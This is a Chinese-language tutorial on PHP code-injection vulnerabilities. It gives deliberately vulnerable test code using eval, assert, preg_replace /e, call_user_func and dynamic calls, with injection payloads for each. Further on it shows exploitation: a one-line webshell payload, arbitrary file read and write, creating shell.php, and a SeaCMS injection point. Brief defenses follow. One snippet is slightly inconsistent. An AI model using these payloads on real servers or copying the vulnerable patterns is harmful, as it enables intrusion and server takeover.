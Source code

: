 # PHP代码注入

## 原理及成因

RCE

代码执行（注入）

代码执行（注入）类似SQL 注入漏洞，SQLi 是将SQL 语句注入到数据库中执行，而代码执行则是可以把代码注入到应用中最终由服务器运行它。这样的漏洞如果没有特殊的过滤，相当于直接有一个Web 后门的存在。

 

1、程序中含有可以执行PHP 代码的函数或者语言结构

2、传入第一点中的参数，客户端可控，直接修改或者影响

 

## 漏洞危害

Web 应用如果存在执行漏洞是一件非常可怕的事情，可以通过代码执行漏洞继承Web 用户权限，执行任意代码。如果服务器没有正确的配置，Web 用户权限比较高的话，我们可以读写目标服务器任意文件内容，甚至可控制整个网站以及服务器。

本课程以PHP 为例子来说明，代码执行漏洞。

PHP中有很多函数和语句都会造成PHP 代码执行漏洞

 

## 相关函数和语句

### *eval()

eval() 会将字符串当作PHP代码来执行。

测试代码如下

> \-------------------------------------------
>
> <?php
>
> if(isset($_REQUEST['code'])){
>
> @$str=$_REQUEST['code'];
>
> eval($str);
>
> }
>
> ?>
>
> \-----------------------------------------
>
> <?php
>
> if(isset($_GET['code'])){
>
> @$str=$_GET['code'];
>
> eval($str);
>
> }
>
> ?>
>
> \----------------------------------------

提交变量[?code=phpinfo();]

 

我们提交以下参数也是可以的

[?code=${phpinfo()};]

[?code=1;phpinfo();]

 

### *assert()

assert() 同样会作为PHP 代码执行

测试代码如下

> \------------------------
>
> <?php
>
> if(isset($_GET['code'])){
>
> @$str=$_GET['code'];
>
> assert($str);
>
> }
>
> ?>
>
> \--------------------------------------

提交参数 [?code=phpinfo()]

 

### *preg_replace()

preg_replace() 函数作用是对字符串进行正则处理

参数和返回值如下

mixed preg_replace(mixed $pattern,mixed $replacement,mixed $subject[,int limit = -1[,int &$count]])

 

这段代码的含义是搜索$subject 中匹配$pattern 的部分，以$replacement 进行替换，而$pattern处，及第一个参数存在e 修饰时，$replacement 的值会被当成PHP 代码来执行。典型的代码如下

> \-----------------------
>
> <?php
>
> if(isset($_GET['code'])){
>
> @$str=$_GET['code'];
>
> preg_replace("/
>
> (.∗)(.∗)
>
> /e",'\\1',$code);
>
> 
>
> }
>
> ?>
>
> \--------------------------------------

提交参数[?code=[phpinfo()]], phpinfo() 会被执行

 

### *call_user_func()

call_user_func() 等函数都有调用其他函数的功能，其中一个参数作为要调用的函数名，那如果这个传入的函数名可控，那就可以调用以外的函数来执行我们想要的代码，也就是存在任意代码执行漏洞。

以call_user_func() 为例子，该函数的第一个参数作为回调函数，测试代码如下

> \-----------------------
>
> <?php
>
> if(isset($_GET['fun'])){
>
> $fun=$_GET['fun'];
>
> $para=$_GET['para'];
>
> call_user_func($fun,$para);
>
> ?>
>
> \------------------------------------

提交参数[?fun=assert&amp;para=phpinfo()]

 

### *动态函数$a($b)

由于PHP 的特性原因，PHP 的函数支持直接由拼接的方式调用，这导致PHP 再安全上的控制又加大了难度。不少知名程序也用到了动态函数的写法，这种写法跟使用call_user_func() 的初衷一样，用来更加方便的调用函数，但是一旦过滤不严格就会造成代码执行漏洞。

测试代码如下：

> \-----------------------
>
> <?php
>
> if(isset($_GET['a'])){
>
> $a=$_GET['a'];
>
> $b=$_GET['b'];
>
> $a($b);
>
> ?>
>
> \--------------------------------------

提交参数

[?a=assert$b=phpinfo()]

 

## 漏洞利用

代码执行漏洞的利用方式有很多中，

### *直接获取shell

提交参数[?code=@eval($_REQUEST[1])],即可构成一句话木马，密码为[1]。可以使用菜刀连接

### *获取当前文件的绝对路径

__FILE__ 是PHP 预定义常量，其含义为当前文件的路径。提交代码[?code=print(__FILE__);]

### *读文件

我们可以利用file_get_contents() 函数读取服务器任意文件，前提是知道文件的绝对路径(也可是相对路径)和读取权限。

提交代码

[?code=var_dump(file_get_contents('c:\windows\system32\drivers\etc\hosts'));]

右键查看源代码

### *写文件

我们可以利用file_put_contents() 函数写入文件，前提是知道可写文件目录。

提交代码[?code=var_dump(file_put_contents($_POST[1],$_POST[2]));]

此时需要借助与hackbar 通过post 方式提交参数

[1=shel.php&2=<?php phpinfo()?>]

 

即可再当前目录下创建一个文件shell.php

 

## 防御方法

1、尽量不要使用eval(不是函数，是语言结构) 等函数

2、如果使用的话一定要进行严格的过滤

3、preg_replace 放弃使用/e 修饰符

4、修改配置文件

disable_functions=assert

 

## 实战：

Seacmsv6.26 命令执行

漏洞点[?searchtype=5&tid=&area=phpinfo()]

 

6.53 6.54 6.55都存在代码注入漏洞